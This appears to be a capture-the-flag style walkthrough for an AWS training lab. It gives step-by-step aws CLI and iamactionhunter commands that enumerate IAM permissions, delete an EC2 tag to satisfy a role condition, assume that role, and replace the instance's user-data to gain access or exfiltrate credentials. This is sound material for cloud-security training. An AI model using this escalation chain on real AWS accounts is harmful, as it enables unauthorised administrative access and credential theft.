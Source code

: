 ### Enumerate the user and roles we have access to from the start cg_dev_user
```
# Gather all roles and users permissions
iamactionhunter --collect --profile cg_dev_user

# Check for Write actions that the dev_user has
iamactionhunter --config write_actions --account <account_id> --user cg_dev_user

# Check if the dev_user has any interesting IAM permissions
iamactionhunter --config dangerous_iam --account <account_id> --user cg_dev_user

# See what write permissions the role you can assume has
iamactionhunter --config write_actions --account <account_id> --role cg_ec2_management_role

# Check back on the dev_user see if you can do anything with tags
iamactionhunter --query 'ec2:*tag*' --account <account_id> --user cg_dev_user

# Note you can delete tags allowing you to satisfy the condition set for the ec2_management_role
```

### Use the dev_user to enumerate ec2 instances
```
# Get instances that have the tag referenced in the condition
aws ec2 describe-instances --region us-west-2 --profile cg_dev_user --filter "Name=tag:Name,Values=cg_admin_ec2*" 
```



### Delete the tag using the dev_user on the EC2 to satisfy the condition for the cg_ec2_management_role
```
aws ec2 delete-tags --region us-west-2 --profile cg_dev_user --resources <instance_id> --tags Key=Name
```

### Assume the cg_ec2_management_role
```
aws sts assume-role --role-arn arn:aws:iam::<account_id>:role/cg_ec2_management_role --role-session-name blah --profile cg_dev_user
```

### Use the cg_ec2_management_role to stop the instance
```
aws ec2 stop-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Use the cg_ec2_management_role to modify the userdata to access the EC2 or exfiltrate credentials from it ([https://hackingthe.cloud/aws/exploitation/local-priv-esc-mod-instance-att/](https://hackingthe.cloud/aws/exploitation/local_ec2_priv_esc_through_user_data/))
```
aws ec2 modify-instance-attribute --region us-west-2 --profile cg_ec2_management_role --instance-id <instance_id> --user-data file://userdata.txt
```

### Use the cg_ec2_management_role to start the instance
```
aws ec2 start-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Access the EC2 or exfiltrate credentials and gain admin privileges
